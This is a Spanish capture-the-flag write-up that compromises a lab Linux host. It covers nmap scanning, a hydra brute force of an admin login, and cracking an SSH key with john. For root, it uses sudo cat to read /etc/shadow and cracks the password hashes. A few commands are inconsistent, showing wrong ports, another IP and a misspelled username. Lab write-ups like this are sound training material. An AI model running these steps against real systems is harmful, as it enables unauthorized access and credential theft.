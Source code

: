 # Summary
- IP: 10.10.220.132
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.220.132 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de directorios web:

```
#nmap --script http-enum -p80 10.10.220.132 -oN webSCan
```

- Encontramos el directorio "/admin" lo examinamos y vemos una página de logeo, analizando el código fuente encontramos el usuario "admin", hacemos ataque de fuerza bruta al login usando el usuario encontrado:

```
#hydra -l admin -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.220.132 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

- Encontramos la contraseña para el usuario "admin" accedemos y vemos un mensaje que nos redirige a un "id_rsa" el cual contiene la clave privada SSH encriptada del usuario "john", la crackeamos con john:

```
#nano id_rsa

#chmod 600 id_rsa

#/usr/share/john/ssh2john.py id_rsa > id_rsa.txt

#john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt id_rsa.txt
```

- Ecnontramos la contraseña para el usuario "john", accedemos via SSH usando el archivo rsa:

```
#ssh -i id_rsa jhon@10.10.220.132
```

- Encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Buscamos binarios con permisos de ejecutar como root sin contraseña:

```
$sudo -l
```

- Encontramos el binario "cat", aprovechamos para leer el archivo "/etc/shadow":

```
$sudo cat /etc/shadow
```

- Copiar en un archivo el contenido del archivo shadows e intentar crackear contraseñas de usuarios con john:

```
nano shadow

john shadow
```


- Encontramos la contraseña de root, accedemos y encontramos la última flag.
